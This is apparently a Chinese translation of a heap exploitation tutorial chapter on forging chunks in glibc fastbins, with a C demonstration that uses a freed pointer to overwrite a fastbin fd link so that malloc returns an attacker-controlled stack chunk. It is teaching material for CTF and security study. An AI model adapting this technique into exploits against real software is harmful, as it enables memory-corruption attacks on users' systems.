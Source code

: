 ```yaml
---
title: Heap Exploitation系列翻译-10 Forging chunks
tags: [CTF, pwn, heap]
layout: post
categories: translations
---
```


> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

在堆块被释放后, 堆块会被插入到一个bin链表中. 然而它的指针在程序中依旧是可用的. 如果攻击这控制了这个指针, 那么他/她便可以修改bin的链表结构并插入他/她自己构造的`伪造`堆块. 以下的示例程序展示了在fastbin的释放链表中如何实现这一攻击.

```c
struct forged_chunk {
  size_t prev_size;
  size_t size;
  struct forged_chunk *fd;
  struct forged_chunk *bck;
  char buf[10];               // padding
};

// First grab a fast chunk
a = malloc(10);               // 'a' points to 0x219c010

// Create a forged chunk
struct forged_chunk chunk;    // At address 0x7ffc6de96690
chunk.size = 0x20;            // This size should fall in the same fastbin
data = (char *)&chunk.fd;     // Data starts here for an allocated chunk
strcpy(data, "attacker's data");

// Put the fast chunk back into fastbin
free(a);
// Modify 'fd' pointer of 'a' to point to our forged chunk
*((unsigned long long *)a) = (unsigned long long)&chunk;
// Remove 'a' from HEAD of fastbin
// Our forged chunk will now be at the HEAD of fastbin
malloc(10);                   // Will return 0x219c010

victim = malloc(10);          // Points to 0x7ffc6de966a0
printf("%s\n", victim);       // Prints "attacker's data" !!
```

伪造堆块的size设置为0x20, 这一就可以通过安全检查"malloc(): memory corruption (fast)", 这是用来检查堆块大小是否在特定fastbin的代销范围内. 同时要注意, 一块已分配的堆块, 它的存储数据起始于'fd'指针所在的地址. 这也就是为什么在上述程序中, `victim`指针指向了'伪造堆块'更前`0x10`(0x8+0x8)字节的位置处.

fastbin的状态变化如下:

1. 'a' freed.
  > head -> a -> tail
2. a's fd pointer changed to point to 'forged chunk'.
  > head -> a -> forged chunk -> undefined (fd of forged chunk will in fact be holding attacker's data)
3. 'malloc' request
  > head -> forged chunk -> undefined
4. 'malloc' request by victim
  > head -> undefined   [ forged chunk is returned to the victim ]

注意以下几点:

* 如果这里同一个bin链表再进行一次'malloc'申请fast chunk将导致段错误(segmentation fault)
* 尽管我们申请10字节大小并且设置伪造堆块的大小为32(0x20)bytes, 但是都在32bytes的fastbins堆块范围内.
* 换作small chunk和large chunk的攻击方法我们将在'House of Lore'见到
* 上述代码运行在64位机器上, 如果要在32位机器上运行, 请将`unsigned long long`换成`unisgned int`, 因为指针长度由8bytes变成了4bytes. 同样, 相比为伪造堆块使用32bytes, 这里用更小的17bytes左右也能奏效.
